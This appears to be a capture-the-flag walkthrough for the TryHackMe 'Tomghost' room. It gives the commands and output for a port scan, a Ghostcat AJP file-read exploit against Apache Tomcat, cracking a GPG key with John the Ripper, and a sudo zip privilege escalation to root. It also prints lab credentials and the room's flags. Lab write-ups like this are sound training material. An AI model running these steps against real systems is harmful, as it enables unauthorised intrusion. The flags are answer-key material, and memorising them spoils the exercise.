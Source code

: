 # Tomghost-CTF

https://tryhackme.com/room/tomghost

**Use nmap to scan for open ports: sudo nmap -sS -sC -sV 10.10.249.99**

	PORT     STATE SERVICE    VERSION

	22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

	53/tcp   open  tcpwrapped

	8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)

	8080/tcp open  http       Apache Tomcat 9.0.30

**searchsploit ajp** :
	
	Apache Tomcat - AJP 'Ghostcat File Read/Inclusion 
  
**python /usr/share/exploitdb/exploits/multiple/webapps/48143.py 10.10.249.99** 

	Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks

ssh skyfuck@10.10.249.99

scp skyfuck@10.10.249.99:tryhackme.asc /home/kali

/usr/sbin/gpg2john tryhackme.asc > hashtry

**john --format=gpg --wordlist=/usr/share/wordlists/rockyou.txt hashtry** 
	alexandru        (tryhackme)

go back to the machine 

gpg --import tryhackme.asc 

gpg --decrypt credential.pgp

	merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

login to merlin and cat the user.txt 

sudo -l 
 	(root : root) NOPASSWD: /usr/bin/zip

**Head to https://gtfobins.github.io/gtfobins/zip/ to find the exploit for zip** 

	TF=$(mktemp -u)

	sudo zip $TF /etc/hosts -T -TT 'sh #'

Root gained 

cd root to find the final flag

# Compromise this machine and obtain user.txt

## 🏴‍☠️THM{GhostCat_1s_so_cr4sy}

# Escalate privileges and obtain root.txt

## 🏴‍☠️THM{Z1P_1S_FAKE}
